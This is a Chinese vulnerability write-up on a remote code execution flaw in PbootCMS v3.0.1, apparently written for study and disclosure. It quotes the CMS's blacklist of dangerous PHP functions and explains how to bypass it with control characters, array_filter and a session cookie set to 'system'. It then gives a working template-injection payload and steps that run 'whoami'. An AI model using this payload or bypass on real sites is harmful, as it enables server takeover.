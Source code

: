 PbootCMS v3.0.1 远程代码执行漏洞
================================

一、漏洞简介
------------

二、漏洞影响
------------

PbootCMS v3.0.1

三、复现过程
------------

### 漏洞分析

依然是先查看`apps\home\controller\ParserController.php中的parserIfLabel`方法的两个if标签的过滤项

    if (preg_match_all('/([\w]+)([\/\*\<\>\%\w\s\\\\]+)?\(/i', $matches[1][$i], $matches2)) {
                        foreach ($matches2[1] as $value) {
                            if (function_exists($value) && ! in_array($value, $white_fun)) {
                                $danger = true;
                                break;
                            }
                        }
                    }
    if (preg_match('/(\$_GET\[)|(\$_POST\[)|(\$_REQUEST\[)|(\$_COOKIE\[)|(\$_SESSION\[)|(file_put_contents)|(file_get_contents)|(fwrite)|(phpinfo)|(base64)|(`)|(shell_exec)|(eval)|(assert)|(system)|(exec)|(passthru)|(pcntl_exec)|(popen)|(proc_open)|(print_r)|(print)|(urldecode)|(chr)|(include)|(request)|(__FILE__)|(__DIR__)|(copy)|(call_user_)|(preg_replace)|(array_map)|(array_reverse)|(getallheaders)|(get_headers)|(decode_string)|(htmlspecialchars)/i', $matches[1][$i]))

关于第一处的判断，我们依然可以使用在函数名和括号之间插入控制字符的方法来绕过该处校验，对于第二处，可以看到在黑名单中相较于上个分析版本（2.0.9）添加了getallheaders的黑名单判断，于是该处我们需要寻找新的方法来实现代码执行的目的，这让我想到了array\_filter函数

![1.png](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId25.png)

通过该函数我们可以实现执行php代码，例如array\_filter(\[\'whoami\'\],\'system\');

那么接下来我们需要思考如何绕过黑名单中对system的检测，在这里我们依然可以将system放到header头中，这里可以使用session\_id(session\_start())的方法来取到session的值，我们可以将session的值置为system，就可以成功的调用system函数来执行命令了，通过上面的思路写出利用payload使用的时候却发生了如下问题

![2.png](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId26.png)

该处的冒号被替换成了`@`符号，通过查看github更新记录可以发现如下代码段

![3.png](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId27.png)

该处使用了正则来替换我们输入的if标签，为了绕过该处正则的替换我们可以使用反斜杠来进行绕过，例如{pboot:if}{/pboot:if}，该处的反斜杠会被写入数据库，而在程序调用该段数据并渲染到前台的模板时会调用到stripcslashes函数，进而删除反斜杠，代码位于core\\function\\handle.php中，如图

![4.png](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId28.png)

### 漏洞复现

通过上面的分析，我们易得如下payload

    {pboot\:if(var_dump<0x01>(array_filter<0x01>(['whoami'],session_id<0x01>(session_start<0x01>()))))}bbbbb{/pboot\:if}

来到后台站点信息处

![5.png](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId30.png)

插入上述poc并保存，然后来到前台首页，访问前台首页抓取数据包，将cookie中session的配置项改为system,如图

![6.png](/Users/aresx/Documents/VulWiki/.resource/PbootCMSv3.0.1远程代码执行漏洞/media/rId31.png)

可以看到成功执行了`system("whoami");`

参考链接
--------

> https://xz.aliyun.com/t/8321
